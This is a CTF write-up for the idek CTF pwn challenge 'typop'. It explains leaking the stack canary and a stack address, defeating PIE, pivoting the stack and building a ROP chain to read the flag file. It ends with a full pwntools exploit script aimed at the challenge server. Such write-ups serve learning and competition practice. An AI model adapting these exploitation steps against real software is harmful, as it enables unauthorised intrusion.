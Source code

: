 <pre style="font-size: 0.6rem; text-align: center">
                    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
                    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
                    @@@@@@@@@@@@@#PPGPB@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
                    @@@@@@@@@@@@@&?   .J&@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
                    @@@@@@@@@@@@@@@B~   :P@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
                    @@@@@@@@@@@@@@@@@Y.   7#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
                    @@@@@@@@@@@@@@@@@@#7   .Y@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
                    @@@@@@@@@@@@@@@@@@@@P^   ~G@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
                    @@@@@@@@@@@@@@@@@@@@@&J    ?&@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
                    @@@@@@@@@@@@@@@@@@@@@&J    ?&@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
                    @@@@@@@@@@@@@@@@@@@@P^   ~G@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
                    @@@@@@@@@@@@@@@@@@#7   .Y@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
                    @@@@@@@@@@@@@@@@@Y.   7#@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
                    @@@@@@@@@@@@@@@B~   :P@@@@@@@@@#55555555555555G@@@@@@@@@@@@@
                    @@@@@@@@@@@@@&?   .J&@@@@@@@@@@Y              ~@@@@@@@@@@@@@
                    @@@@@@@@@@@@@#PPGPB@@@@@@@@@@@@#PGGGGGGGGGGGGPB@@@@@@@@@@@@@
                    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
                    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
</pre>

---

This was a pwn challenge rated with 408 points in idek CTF.
The instructions said:

> While writing the feedback form for idekCTF, JW made a small typo. It still compiled though, so what could possibly go wrong?

This binary involved handling canary and PIE protections and, in the way I solved it, stack pivoting.

---

This is a very small binary with only a couple of functions. Let's run it first to see what would be the normal output:

<img src="/./assets/imgs/typop_exec.png">

As we can see, we provide the answer to some questions and we can overflow the stack easily. 

Let's take a look at the disassembly and see the main function:

<img src="/./assets/imgs/typop_main.png">

As we expected, it `puts` the first question and `getchar` the response. If it's 0x79 or 'y', then it continues and calls `getFeedback`. If not, it exits. 

Let's inspect `getFeedback`:

<img src="/./assets/imgs/typop_getfeedback.png">

We can quickly see where the overflow is. The `buf` to which we write is in $rbp-0x12 and in the first question already reads 0x1e. After that, it reads 0x5a, overflowing the stack.

The first thing we need to defeat is the canary. The answer to the second question is what gets replied to us. We can use this to print the canary by providing the exact amount of characters to concatenate the canary like so:

| 00  | 01  | 02  | 03  | 04  | 05  | 06  | 07  | 08  | 09  | 0a  | 0b  | 0c  | 0d  | 0e  | 0f  |
|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|
| 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | AA  | AA  |
| AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | CAN | CAN | CAN | CAN | CAN | CAN | CAN | CAN |
| RBP | RBP | RBP | RBP | RBP | RBP | RBP | RBP | RSP | RSP | RSP | RSP | RSP | RSP | RSP | RSP |

A \n char will be added at the end so it will be:

| 00  | 01  | 02  | 03  | 04  | 05  | 06  | 07  | 08  | 09  | 0a  | 0b  | 0c  | 0d  | 0e  | 0f  |
|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|
| 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | AA  | AA  |
| AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | 0a | CAN | CAN | CAN | CAN | CAN | CAN | CAN |
| RBP | RBP | RBP | RBP | RBP | RBP | RBP | RBP | RSP | RSP | RSP | RSP | RSP | RSP | RSP | RSP |

Therefore we will rely on the chances of the canary ending up in 0x00. It will reply something like: `AAAAAAAAAAA\xAB\xCD\xEF\x0a...` with the last part being the canary, until it founds a \x00.

> One important thing to consider is that the canary is the same during the whole execution and therefore dumping it once will allow to reuse it

Now that we have the canary, we can overflow rbp and rsp to control execution. But what can we do with what? PIE is enabled and we don't know what the offset is.

But, we cano d the same technique again to dump rsp value because `getFeedback` is executed in a loop in main. In this case, it would look like:

| 00  | 01  | 02  | 03  | 04  | 05  | 06  | 07  | 08  | 09  | 0a  | 0b  | 0c  | 0d  | 0e  | 0f  |
|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|-----|
| 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | 00  | AA  | AA  |
| AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  |
| AA  | AA  | AA  | AA  | AA  | AA  | AA  | AA  | 00 | RSP | RSP | RSP | RSP | RSP | RSP | RSP |

We don't really care about the last bytes of rsp, we only want the offset. But with that we can control the execution. 

The target of this pwn challenge is to call win:

<img src="/./assets/imgs/typop_win.png">

This function will take 3 arguments, each of those a char, which will be concatenated to 'g.txt'. As we can see in the attachments, flag.txt is the name of the flag. Therefore, we can send 'f', 'l' and 'a' as the arguments, read the contents and have everything dumped. For that we can do ROP: find the gadgets, add the offset and get everything in the right registers.

But after running [ROPGadget](https://github.com/JonathanSalwan/ROPgadget) we can see that there is no way to pop a value to `rdx` and therefore we can't control the last argument. 

Let's change the approach. The filename is loaded from a string in $rbp-0x4a. The mode is hardcoded so we don't have to worry about that.

We know we can control rbp so we can do a stack pivot and then jump exactly to where the filename is loaded from rbp, in 0x000012ac. We are dumping the old $rbp when we dump the canary. We can substract 0x200 (or any value really) to get an empty area as our new fake stack.

Then we can write a string to that area by calling `read`. We can control rdi (stdin, \x00), rsi (where to write) and call `read`. We can't control rdx (the amount of bytes to read) but that would be 0x5a from previously calling `read` in `getFeedback`. 

So the exploit will work like this:

1. Do a first run of `getFeedback` to get the canary
2. Leave $rpb and $rsp as it is on the second question and provide the right canary.
2. Do a second run of `getFeedback` and get $rsp to get the offset. 
3. Provide the canary, overflow $rbp with the new stack value and $rsp to do the ROP: the `pop rdi` gadget, `\x00` * 8  (stdin value is 0), the `pop rsi; pop r15` gadget, the address where to write (our new stack address - 0x4a), `\x00` * 8 for the `pop r15`, the address of `read` and finally the exact position we want in `win`.

With that, we can craft the exploit:

```python3
from pwn import *
import time

#b = process('./chall')
b = remote("typop.chal.idek.team", 1337)
#gdb.attach(b,  gdbscript='b *getFeedback+178')
#gdb.attach(b,  gdbscript='b *win+220')

def parse_addresses(data):
    stack_address = data[8:]
    stack_address = stack_address + b'\x00' * (8 - len(stack_address))

    canary = data[1:8]
    canary = b'\x00' * (8 - len(canary)) + canary
    return stack_address, canary

def parse_rsp(data):
    rsp = data
    rsp = rsp + b'\x00' + b'\x00' 
    return rsp

b.info(b.recvuntil(b'?\n'))
b.send(b'y\n')
b.info(b.recvuntil(b'?\n'))
b.send(b'AAAAAAAAAA\n')

data = b.recvuntil(b'Aww')[20:-4]
b.recvuntil(b'?')

stack_address, canary = parse_addresses(data)
canary = u64(canary)
b.info(str(hex(canary)))

b.send(b'B'*10 + p64(canary))
b.info(b.recvuntil(b'?\n'))
b.send(b'y\n')
b.info(b.recvuntil(b'?\n'))
b.send(b'AAAAAAAAAAAAAAAAAAAAAAAAA\n')

data = b.recvuntil(b'Aww')[36:-4]
b.recvuntil(b'?')

rsp = parse_rsp(data)
b.info(str(len(rsp)))
rsp = u64(rsp)
b.info(str(hex(rsp)))

base_address = rsp - 5191
win = rsp - 510
pop_rdi = 0x00000000000014d3
pop_rsi_r15 = 0x00000000000014d1
ret = 0x000000000000101a
pop_rsp = 0x00000000000014cd
new_stack_address = p64( u64(stack_address) - 0x2000)
b.send(b'B'*10 + p64(canary) + new_stack_address + p64(pop_rdi + base_address)  + b'\x00' * 8 +  p64(pop_rsi_r15 + base_address) + p64(u64(new_stack_address) - 0x4a) + b'\x00' * 8 +  p64(base_address - 784 + 5136) + p64(win + 99))

time.sleep(2)
b.send(b'flag.txt')

print(b.recvuntil(b'\n'))
b.interactive()

```

<img src="/./assets/imgs/typop_solved.png">
